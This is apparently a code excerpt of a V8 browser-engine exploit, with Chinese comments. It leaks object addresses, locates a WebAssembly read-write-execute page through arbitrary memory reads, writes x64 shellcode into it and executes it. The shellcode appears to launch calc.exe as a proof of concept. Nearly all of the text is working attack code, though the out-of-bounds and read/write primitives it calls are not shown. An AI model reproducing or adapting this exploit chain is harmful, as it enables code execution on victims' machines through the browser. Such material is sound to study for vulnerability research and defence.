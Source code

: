 ```
function addr_of(obj) {
    obj_leaker.b = obj;
    let half = f2half(oob_array[obj_leader_offset]);    // half[0]为低32位，half[1]为高32位
    // 标记在低32字节，对象在高32字节
    if (half[0] == 0xc00c) {
        return BigInt(half[1]);
    }
}
// 获取RWX内存地址
function get_wasm_rwx() {
    console.log("[+] run shellcode......");
    wasm_module = new WebAssembly.Module(wasm_code);
    wasm_instance = new WebAssembly.Instance(wasm_module, {});
    wasm_function = wasm_instance.exports.main;
    wasm_function_addr = addr_of(wasm_function);

    wasm_shared_info = compress_arw_read(BigInt(wasm_function_addr)+0xcn) & (0xffffffffn);
    wasm_data = compress_arw_read(BigInt(wasm_shared_info)+0x4n) &(0xffffffffn);
    wasm_instance = compress_arw_read(BigInt(wasm_data)+0x8n) &(0xffffffffn);
    wasm_rwx = compress_arw_read(BigInt(wasm_instance)+0x68n);
    console.log("   wasm_shared_info :" + hex(wasm_shared_info));
    console.log("   wasm_data : 0x" + hex(wasm_data));
    console.log("   wasm_instance : 0x" + hex(wasm_instance));
    console.log("   wasm_rwx : 0x" + hex(wasm_rwx));
}
// 将shellcode写入并执行
function run_shellcode() {
    var shellcode =  unescape("%u48fc%ue483%ue8f0%u00c0%u0000%u5141%u5041%u5152%u4856%ud231%u4865%u528b%u4860%u528b%u4818%u528b%u4820%u728b%u4850%ub70f%u4a4a%u314d%u48c9%uc031%u3cac%u7c61%u2c02%u4120%uc9c1%u410d%uc101%uede2%u4152%u4851%u528b%u8b20%u3c42%u0148%u8bd0%u8880%u0000%u4800%uc085%u6774%u0148%u50d0%u488b%u4418%u408b%u4920%ud001%u56e3%uff48%u41c9%u348b%u4888%ud601%u314d%u48c9%uc031%u41ac%uc9c1%u410d%uc101%ue038%uf175%u034c%u244c%u4508%ud139%ud875%u4458%u408b%u4924%ud001%u4166%u0c8b%u4448%u408b%u491c%ud001%u8b41%u8804%u0148%u41d0%u4158%u5e58%u5a59%u5841%u5941%u5a41%u8348%u20ec%u5241%ue0ff%u4158%u5a59%u8b48%ue912%uff57%uffff%u485d%u01ba%u0000%u0000%u0000%u4800%u8d8d%u0101%u0000%uba41%u8b31%u876f%ud5ff%uf0bb%ua2b5%u4156%ua6ba%ubd95%uff9d%u48d5%uc483%u3c28%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5900%u8941%uffda%u63d5%u6c61%u2e63%u7865%u0065");
    while(shellcode.length % 4 != 0){
        shellcode += "/u9090";
    }
    let sc = [];

    // 将shellcode转换为BigInt
    for (let i = 0; i < shellcode.length; i += 4) {
        sc.push(BigInt(shellcode.charCodeAt(i)) + BigInt(shellcode.charCodeAt(i + 1) * 0x10000) + BigInt(shellcode.charCodeAt(i + 2) * 0x100000000) + BigInt(shellcode.charCodeAt(i + 3) * 0x1000000000000));
    }
    arw_write(wasm_rwx, sc);

    console.log("[+] success!!!");
    wasm_function();
}

function exp() {
    confusion_to_oob();
    get_arw();
    get_wasm_rwx();
    run_shellcode();
}

exp();


```
